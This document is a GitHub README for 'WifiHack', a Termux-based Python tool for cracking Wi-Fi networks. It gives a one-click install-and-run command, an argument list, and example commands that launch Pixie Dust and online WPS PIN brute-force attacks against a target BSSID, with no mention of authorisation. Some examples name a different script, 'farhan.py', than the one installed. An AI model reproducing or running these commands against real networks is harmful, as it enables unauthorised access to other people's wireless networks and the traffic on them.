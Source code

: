 ### wifi-hacking
<p align="center"><img src="https://user-images.githubusercontent.com/75953873/115979290-66309900-a55b-11eb-8259-4b125efc42bb.png"></p>

[![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/downloads/release/python-2714/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux%20%7C%20Android-yellowgreen.svg)](https://termux.com/)



### How to update WifiHack
To check for updates and update, run the following command:
```
(cd WifiHack && git pull)
```

### One click Installation :
```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone --depth 1 https://github.com/Gtajisan/WifiHack && sudo python WifiHack/WifiHack.py -i wlan0 -K
```
## Feutures and Contains :


```bash 

1)Scan Networks   

2)Getting Handshake

3)Create passed crack 

4)Install Wireless supported                  

5)WPS Networks attacks 

6)Scan for WPS Networks

7)Crack WiFi all of tham

8)Crack Handshake without monitor mod support 
```

## Tested On :

* Kali Linux (🚫)
* BlackArch Linux (🚫)
* Ubuntu (🚫)
* Kali Nethunter (🚫)
* Termux ( Rooted Devices✅)
* Parrot OS (🚫)
* তুমি আছো তুমি নাই (🤣)

## [Termux](https://termux.com/)
Please note that root access is required.  

### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://l.top4top.io/p_28355s7ua0.png"></


#### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
**Getting WifiHack**
 ```
 
 git clone --depth 1 https://github.com/gtajisan/WifiHack WifiHack
 ```
 
#### Running
 ```
 sudo python WifiHack/WifiHack.py -i wlan0 -K
 ```
 
 
 
# Usage
```
 WifiHack.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 farhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 farhan.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 farhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 farhan.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running WifiHack with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running WifiHack with the `--mtk-wifi` flag to initialize Wi-Fi device driver.

### screenshot
<p align="center"><img src="[https://i.ibb.co/0GWdxHg/Photo-Lab-M-W-20231004-231206.jpg]
